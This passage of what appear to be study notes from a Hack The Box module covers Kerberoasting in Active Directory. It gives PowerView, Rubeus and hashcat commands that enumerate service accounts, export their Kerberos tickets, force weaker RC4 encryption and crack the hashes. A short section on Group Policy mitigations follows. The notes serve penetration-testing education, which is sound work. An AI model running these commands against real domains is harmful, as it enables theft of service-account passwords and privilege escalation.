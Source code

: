 ``` Bash
# Crack it with hashcat
$ hashcat -m 13100 hashcat_sqldev_tgs /usr/share/wordlists/rockyou.txt 
```

### Tool Based methods

#### PowerView

``` PowerShell
# Using PowerView to enuemrate SPN accounts then extract one or all TGS tickets
PS C:\> Import-Module .\PowerView.ps1
PS C:\> Get-DomainUser * -spn | select samaccountname
# Exporting a sepcific account's TGS ticket.
PS C:\> Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
# Exporting All Tickets to a CSV File.
PS C:\> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\domain_tgs.csv -NoTypeInformation
```

#### Rubeus
``` PowerShell
# Enumerate how much accounts are supporting RC4 and AES 128/256
PS C:\> Rubeus.exe kerberoast /stats

# Target high value accounts at first
PS C:\> Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap 

# Target a specific user account, returning a service ticket encrypted with the highest level of encryption supported by the target account. 
PS C:\> Rubeus.exe kerberoast /user:testspn /nowrap

# Target a specific user account, /tgtdeleg flag to return service ticket encrypted with RC4 .
PS C:\> Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap
# Note: This does not work against a Windows Server 2019 Domain Controller, regardless of the domain functional level.
PS C:\> 

# Check the supported ecryption type attribute
# msDS-SupportedEncryptionTypes = (0) / (0x0)  -> defaults to RC4_HMAC_MD5
# msDS-SupportedEncryptionTypes = (24)/ (0x18) -> AES 128, AES 256
PS C:\> Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes 
```

Check [Supported Kerberos Encryption Types](https://techcommunity.microsoft.com/blog/coreinfrastructureandsecurityblog/decrypting-the-selection-of-supported-kerberos-encryption-types/1628797) for more knowledge about the `msDS-SupportedEncryptionTypes` attribute and what it's refer to.

---
## Mitigations and Detections

Edit the encryption types used by Kerberos
`Open Group Policy > Edit the defautl domain policy > Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > Security Options > double-click on (Network security: Configure encryption types allowed for Kerberos) `
<img src="https://academy.hackthebox.com/storage/modules/143/kerb_encrypt_types.png" style="height:60%px;width:60%">
